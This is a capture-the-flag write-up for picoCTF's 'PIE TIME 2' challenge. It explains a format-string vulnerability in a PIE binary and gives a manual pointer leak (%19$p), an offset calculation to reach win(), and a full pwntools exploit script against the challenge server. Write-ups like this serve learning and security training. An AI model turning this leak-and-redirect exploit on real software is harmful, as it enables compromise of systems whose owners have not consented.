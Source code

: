 >> Write-up — PIE TIME 2 (picoCTF)

**Challenge:** rescued-float — PIE / info-leak

**Category:** Binary Exploitation — PIE / ASLR bypass via info leak

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Medium


### Summary: 

+ This challenge contained a small 64-bit PIE binary (`vuln`) with a format-string bug and a simple function `win()` that prints the flag. Because the binary is position-independent (PIE/ASLR), function addresses are randomized each run — so we must leak a runtime address from the same process and compute `win()`’s runtime address from that leak. We exploited the format-string vulnerability (`printf(buffer)`) to leak a pointer, used a fixed offset (extracted from the local binary) to compute `win()`’s address, then passed that address to the program which calls it as a function pointer — producing the flag.

### Vulnerability

+ In `call_functions()` the code does:
```c
fgets(buffer, 64, stdin);
printf(buffer);
```

+ Passing user data directly as the `printf` format string creates a format-string vulnerability: the attacker can supply `%p`/`%19$p` to print stack/call-context pointers. The program then does:

```c
scanf("%lx", &val);
void (*foo)(void) = (void (*)())val;
foo();
```

+ So if we can compute the runtime address of `win()` for the current process, we can simply input that address and have the program call `win()`.

---

### Key idea / exploitation plan

1) Disassemble the local binary to find the offsets between known code locations:
+ find the offset of `main` and `win` or the offset between the leaked return address and `win`.

2) Connect to the remote service and use the format-string (`%19$p`) to leak a runtime pointer that sits inside the binary image (this gives us a value of the form `base + constant`).

3) Use the offset from step (1) to convert the leaked pointer into the runtime address of `win()`:

```ini
win_addr = leaked - OFFSET_SUB
```

+ (In this challenge the required subtraction was 0xd7 in hex; that value comes from disassembly of the local `vuln`.)

4) Send the computed `win_addr` to the service. The program casts that value to a function pointer and calls it. If the calculation is correct, `win()` runs and prints the flag.

---

### How the offsets were obtained (short)

Run `objdump -d vuln` (local binary) and locate `<main>` and `<win>` addresses. From the disassembly we deduced the constant difference needed to convert the leaked pointer to the `win()` address. In our runs that constant was `0xd7` (decimal 215), so `target = leaked - 0xd7`.

> Important: you must get these offsets from the same binary file that the server runs. If offsets differ, your calculation will be wrong and the program will segfault.

--- 

### Example manual session

+ Connect:
```bash
$ nc rescued-float.picoctf.net <Random Port> #Example: 54102
Enter your name:
```
![Step 1](image/1.png)

+ Leak:
```perl
%19$p
0x5773bde75441
```

+ Compute target (`leaked - 0xd7`):
```python
python3 - <<'PY'
print(hex(int("0x5773bde75441",16) - 0xd7))
PY
# => 0x5773bde7536a
```

+ Paste the computed value when the program asks for the address:
```bash
0x5773bde7536a
```

+ Program prints:
```bash
You won!
picoCTF{...}
```

---

### Automated Python exploit

+ The following pwntools script automates the steps: it connects, leaks with %19$p, parses the leak, computes win() as leaked - OFFSET_SUB, sends the address, and prints the service output. Change OFFSET_SUB if your local disassembly yields a different value.

```python
#!/usr/bin/env python3
# exploit_auto.py — Automatic: leak -> compute -> jump to win()
from pwn import *
import re
import sys

if len(sys.argv) < 2:
    print("Usage: python3 exploit_auto.py <port>")
    sys.exit(1)

HOST = "rescued-float.picoctf.net"
PORT = int(sys.argv[1])

# If your local offset differs, change this value.
# This value was derived from the local disassembly (leaked_value - win_address).
OFFSET_SUB = 0xd7  # 0xd7 = 215 decimal

context.log_level = "info"
context.timeout = 6

def exploit_once():
    try:
        p = remote(HOST, PORT, timeout=6)
    except Exception as e:
        print("[!] Could not connect:", e)
        return False

    # Wait for the name prompt
    try:
        p.recvuntil(b"Enter your name:", timeout=4)
    except Exception:
        pass

    # Leak using the tested index (%19$p)
    p.sendline(b"%19$p")

    # Read until the next ":" prompt or a short timeout
    data = b""
    try:
        data = p.recvuntil(b":", timeout=3)
    except Exception:
        try:
            data = p.recv(timeout=2)
        except Exception:
            pass

    print("Leaked snippet:", data.decode(errors="ignore"))

    m = re.search(rb'0x[0-9a-fA-F]+', data)
    if not m:
        print("[!] No leak found — the index may be different.")
        p.close()
        return False

    leaked = int(m.group(0), 16)
    print(f"[+] leaked = {hex(leaked)}")

    # Compute the win() address for this run
    target = leaked - OFFSET_SUB
    print(f"[+] Calculated win target = {hex(target)}")

    # Ensure we've consumed the address prompt (if not already)
    try:
        p.recvuntil(b":", timeout=2)
    except Exception:
        pass

    # Send the computed address
    p.sendline(hex(target).encode())

    # Read output (flag or segfault message)
    try:
        out = p.recvall(timeout=4)
    except Exception:
        out = b""

    if out:
        print("=== Service output ===")
        print(out.decode(errors="ignore"))
        s = out.decode(errors="ignore").lower()
        if "you won" in s or "picoctf" in s or "flag" in s:
            print("[+] Likely got the FLAG.")
            p.close()
            return True
    else:
        print("[*] No output received (the service may have closed).")

    p.close()
    return False

if __name__ == "__main__":
    ok = exploit_once()
    if not ok:
        print("[!] Attempt finished but did not succeed. Try again (each new session requires a fresh leak).")
```

### Usage:

+ Save as `exploit_auto.py`.

+ Install pwntools if needed: `pip install pwntools`.

+ Run:
```bash
python exploit_auto.py 59006
```
+ (replace `59006` with the challenge port if different)


![Step 2](image/2.png)
